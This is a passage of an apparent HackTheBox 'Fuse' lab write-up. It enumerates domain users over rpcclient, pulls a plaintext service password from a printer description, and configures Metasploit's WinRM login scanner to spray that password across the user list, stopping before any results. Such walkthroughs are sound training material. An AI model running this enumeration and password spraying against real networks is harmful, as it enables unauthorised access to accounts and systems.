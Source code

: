 ## rpcclient

Now we can login with rpcclient using this new password (you have to login quickly after changing the password because it is reset often)

```bash
finlay@kali:~/htb/fuse$ sudo rpcclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
rpcclient $>
```

We can run `enumdomusers` to get more usernames to add to our users list

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]                   
user:[DefaultAccount] rid:[0x1f7]               
user:[svc-print] rid:[0x450]                    
user:[bnielson] rid:[0x451]              
user:[sthompson] rid:[0x641]          
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]                            
user:[astein] rid:[0x1db2]                                                          
user:[dmuir] rid:[0x1db3]
```

We can also run `enumprinters` to get a password

```bash
rpcclient $> enumprinters
        flags:[0x800000]                 
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]                      
        comment:[]
```

## WinRM

Now we can try using metasploit's win-rm module to see if we can login with any users using this password.

```bash
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD $fab@s3Rv1ce$1                                                                                                                                                                                                                                                    
PASSWORD => $fab@s3Rv1ce$1                                                                                                                                                                                                                                                                                                 
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193                                                                                                                                                                                                                                                        
```
